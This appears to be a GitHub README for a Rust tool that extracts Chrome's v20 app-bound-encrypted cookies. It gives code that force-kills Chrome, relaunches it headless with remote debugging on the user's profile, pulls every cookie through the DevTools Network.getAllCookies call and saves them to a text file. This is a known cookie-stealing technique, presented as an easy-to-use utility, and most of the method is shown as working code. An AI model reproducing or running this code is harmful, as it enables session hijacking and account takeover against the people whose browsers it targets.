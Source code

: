 ## decrypt_v20_chrome_cookies
🚀 This repository **is a simple Rust project** for retrieving **Chrome v20 cookies.**

## 📌 Features
- Retrieve cookies v20 from **Chrome Debugger**
- **Simple and lightweight** Rust implementation
- **Easy** to use

## 🛠️ How It Works
This project uses **Rust** to retrieve **Chrome v20 cookies** using chrome debugging. Here are the main steps:
- **Checks if the program ```'chrome.exe'``` is running**: If it does, it closes it automatically.
```rust
fn verify_chrome() {
    let verify_chrome = Command::new("cmd.exe")
            .arg("/C")
            .arg("tasklist")
            .output()
            .unwrap();

    let result1 = String::from_utf8_lossy(&verify_chrome.stdout);

    if result1.contains("chrome.exe") {
        let _ = Command::new("taskkill")
                .arg("/F")
                .arg("/IM")
                .arg("chrome.exe")
                .output()
                .unwrap();


        thread::sleep(Duration::from_secs(2)); 
    }
}
```

- **Launches the Chrome Debugger**: Start Chrome in headless mode with remote debugging enabled.
```rust
let _ = Command::new(path_chrome)
            .arg(format!("--remote-debugging-port={}", port_debugging))
            .arg("--remote-allow-origins=*")
            .arg("--headless")
            .arg(format!("--user-data-dir={}", path_user))
            .stdout(Stdio::null()) 
            .stderr(Stdio::null())
            .spawn()?;
```

- **Connect to Debugging Interface**: Use ```reqwest``` to retrieve the ```webSocketDebuggerUrl``` for WebSocket communication.
```rust
let resp = reqwest::blocking::get(format!("http://localhost:{}/json", port_debugging))?;
let ws_url = json[0]["webSocketDebuggerUrl"].as_str().unwrap().to_string();
```

- **Retrieve Cookies**: Send a command to fetch all cookies via WebSocket.
```rust
let (mut socket, _) = connect(ws_url)?;
let data = serde_json::json!({ "id": 1, "method": "Network.getAllCookies" });
socket.send(Message::Text(data.to_string()))?;
```

- **Store Cookies**: Write the retrieved cookies to ```cookies.txt```

- **Clean Up**: Terminate the Chrome process to clean up resources.
```rust
let _ = Command::new("taskkill")
            .arg("/F")
            .arg("/IM")
            .arg("chrome.exe")
            .output()
            .unwrap();
```

## 📥 Installation
Make sure you have **Rust** installed. If not, you can install it via this website [rust](https://www.rust-lang.org/fr/tools/install):       
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
Then, clone this repository and build the project:
```
git clone https://github.com/bypass_v20_chrome_cookies
cd bypass_v20_chrome_cookies
cargo build --release
```

## 🚀 Usage
```
cargo run
```
Or use the compiled binary:
```
target/release/
```

## 🎉 Acknowledgments
- Inspired by various open-source **Chrome cookie** retrieval projects.

